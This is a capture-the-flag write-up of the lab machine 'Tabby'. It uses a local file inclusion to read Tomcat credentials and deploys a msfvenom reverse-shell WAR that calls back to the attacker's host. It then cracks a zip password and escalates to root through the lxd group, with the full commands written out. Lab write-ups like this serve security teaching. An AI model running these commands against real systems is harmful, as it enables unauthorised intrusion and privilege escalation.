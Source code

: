 # Tabby

### Basic Information
**Machine name:** Tabby  
**IP:** 10.10.10.194  
**Written by:** Adir Biran  
**Tools:** Nmap, Gobuster, msfvenom, zip2john, john, lxd  
**Method:** 

## Enumeration




#### Nmap
*1
<p align="center">
</p>

ports open:
22 - SSH
80 - HTTP
8080 - HTTP

#### Gobuster


gobuster - 80
*2
<p align="center">
</p>

endpoints:
/assets - unreachable
/files - unreachable

gobuster - 8080
*3
<p align="center">
</p>

endpoints:
/docs
/examples
/host-manager
/manager

the website - port 80
*4
<p align="center">
</p>

navigating the checking robots.txt

the website - port 8080
*4-0
<p align="center">
</p>

from the last line, we can see users file is located at /etc/tomcat9/tomcat-users.xml


/docs
*4-1
<p align="center">
</p>

documentation of the apache tomcat, version is 9.0.31.

/examples
*4-2
examples of the apache tomcat.

/host-manager
*4-3
<p align="center">
</p>

requires a login, tried different default credentials found on google but nothing worked.

another line here, indicating the tomcat users file is located in conf/tomcat-users.xml

/manager
*4-4
<p align="center">
</p>

same as host-manager.

continuing on the website on port 80.

adding megahosting to /etc/hosts file
*6
<p align="center">
</p>

the news button leads to something interesting
*5
<p align="center">
</p>

LFI

try basic LFI fails
*7
<p align="center">
</p>

using relative path works
*8
<p align="center">
</p>

user found: ash

lets try to read the credentials for the tomcat's host-manager/manager.
as we saw earlier, the users file is supposed to be located at /etc/tomcat9/tomcat-users.xml.
*9
<p align="center">
</p>

however, seems the file has been moved.
after failed trials, installed the tomcat9 locally using:
sudo apt-get install tomcat9

and located the tomcat-users.xml file:
find / -name tomcat-users.xml 2>/dev/null
*10
<p align="center">
</p>

the second path we tried already, lets try the first one:
/usr/share/tomcat9/etc/tomcat-users.xml
view source to see the content of the xml file.
*11
<p align="center">
</p>

credentials found:
tomcat:$3cureP4s5w0rd123!

with roles: admin-gui, manager-script

trying to get to megahosting.htb:8080/manager and /host-manager with the credentials found.
/manager failed
/host-manager succeed
*12
<p align="center">
</p>

after researching google for a while, found multiple ways to exploit the /manager app but not the /host-manager one.
however, the tomcat user has 2 roles: admin-gui and manager-script.

from the host-manager failed login page, we can see the manager-script role allows for text interface.
meaning, we can try to upload a reverse shell using the text interface.

more information on the roles can be found here:
https://blog.techstacks.com/2010/07/new-manager-roles-in-tomcat-7-are-wonderful.html
*13
<p align="center">
</p>

from the tomcat documentation found on google, we can see how to use the text interface:
https://tomcat.apache.org/tomcat-8.5-doc/host-manager-howto.html

all we need is curl the url: http://10.10.10.194:8080/host-manager/text/{command} with the username and password as mentioned in the documentation.
trying the basic list command from the documentation:
curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/host-manager/text/list
*14
<p align="center">
</p>

the host-manager doesn't work, but the /manager does.
*15
<p align="center">
</p>

good.
the next thing is to upload a reverse shell using the command line.

first, let's create the payload as a war file to be deployed by the apache server.
*16
<p align="center">
</p>

msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.5 LPORT=1234 -f war -o shell.war

as explained in this documentation, we'll use this method to deploy the war file remotely.
*17
<p align="center">
</p>

https://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely

deploying the war remotely:
*18
<p align="center">
</p>

curl -u 'tomcat:$3cureP4s5w0rd123!' -T shell.war http://10.10.10.194:8080/manager/text/deploy?path=/shell

now lets open nc on port 1234 and navigate to 10.10.10.194:8080/shell
*19
<p align="center">
</p>

and we're in as tomcat.

tried to enumerate manually to find ways to escalate privileges before trying linpeas.

sudo -l fails, we don't know the password for tomcat user.

SUID files also didn't induce something useful, as well as the user's groups.

decided to try the /var/www/html directory, as we had earlier paths we couldn't reach (/assets, /files).
*20
<p align="center">
</p>


assets has nothing useful, but files directory does.
*21
<p align="center">
</p>

as the zip file is password protected, we will copy it to our machine and try to crack the password.
*22
<p align="center">
</p>

used zip2john to form the hash:
*23
<p align="center">
</p>

and john to crack the password:
*24
<p align="center">
</p>

password found: admin@it

trying ssh ash with that password failed as it requires the private key.
*25
<p align="center">
</p>

lets try within the reverse shell to switch user to ash with that password.
*26
<p align="center">
</p>

chekcing sudo permission
*27
<p align="center">
</p>

groups
*28
<p align="center">
</p>

as we can see, ash is in lxd group and this is known to be a privilege escalation vector.

following the method mentioned in this article:
https://www.hackingarticles.in/lxd-privilege-escalation/

on the local machine:
git clone  https://github.com/saghul/lxd-alpine-builder.git
*29
<p align="center">
</p>

cd lxd-alpine-builder
./build-alpine

*30
<p align="center">
</p>

and when building is finished, an alpine file will be created.
*31
<p align="center">
</p>

moved the alpine file to the remote machine's /tmp directory using python simple server.
*32
<p align="center">
</p>

however, the process won't work on the /tmp directory due to lack of permissions.
so we will move the alpine.tar.gz file to the /home/ash directory and continue the execution from there.
*33
<p align="center">
</p>

first, initiate the lxd service:
lxd init
*34
<p align="center">
</p>

as we can see, lxd wasn't found because /snap/bin isn't in our path.
let's add it.
export PATH=/snap/bin:$PATH
lxd init (again)
*35
<p align="center">
</p>

lxc image import ./alpine.tar.gz --alias img
*36
<p align="center">
</p>

make sure the image was imported
lxc image list
*37
<p align="center">
</p>

lxc init img ignite -c security.privileged=true
*38
<p align="center">
</p>

lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
*39
<p align="center">
</p>

lxc start ignite
*40
<p align="center">
</p>

lxc exec ignite /bin/sh
*41
<p align="center">
</p>

as some characters are messed up, but root is a root.
*42
<p align="center">
</p>

the mounted image is located in /mnt/root.
